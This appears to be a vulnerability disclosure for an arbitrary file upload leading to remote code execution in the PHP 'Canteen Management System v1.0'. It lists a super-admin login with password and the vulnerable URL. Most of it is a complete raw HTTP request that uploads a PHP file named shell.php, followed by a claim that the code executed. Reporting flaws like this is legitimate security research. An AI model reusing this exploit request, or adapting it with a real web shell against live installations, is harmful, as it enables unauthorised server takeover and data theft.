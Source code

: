 # Canteen Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: QiaoRui feng

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/youthappam/manage_website.php

Loophole location: Canteen Management System's manage_website.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /youthappam/manage_website.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/youthappam/manage_website.php
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------13868104343107
Content-Length: 1811

-----------------------------13868104343107
Content-Disposition: form-data; name="title"

Admin Panel by 
-----------------------------13868104343107
Content-Disposition: form-data; name="footer"

Admin PanelÃÂ 
-----------------------------13868104343107
Content-Disposition: form-data; name="short_title"

9090908080
-----------------------------13868104343107
Content-Disposition: form-data; name="currency_code"

India
-----------------------------13868104343107
Content-Disposition: form-data; name="currency_symbol"

Ã¢âÂ¹
-----------------------------13868104343107
Content-Disposition: form-data; name="old_website_image"

shell.php
-----------------------------13868104343107
Content-Disposition: form-data; name="website_image"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------13868104343107
Content-Disposition: form-data; name="old_invoice_image"

logo.jpg
-----------------------------13868104343107
Content-Disposition: form-data; name="invoice_image"; filename=""
Content-Type: application/octet-stream


-----------------------------13868104343107
Content-Disposition: form-data; name="old_login_image"

logo.png
-----------------------------13868104343107
Content-Disposition: form-data; name="login_image"; filename=""
Content-Type: application/octet-stream


-----------------------------13868104343107
Content-Disposition: form-data; name="old_back_login_image"

logo.jpg
-----------------------------13868104343107
Content-Disposition: form-data; name="back_login_image"; filename=""
Content-Type: application/octet-stream


-----------------------------13868104343107
Content-Disposition: form-data; name="btn_web"


-----------------------------13868104343107--
```

The files will be uploaded to this directory \youthappam\assets\uploadImage\Logo\

![image](https://user-images.githubusercontent.com/54017627/195260484-cd58b496-0358-4d88-969d-e296b1d7115b.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/195260640-b9049448-c56f-4087-86ae-9b97b1385c34.png)
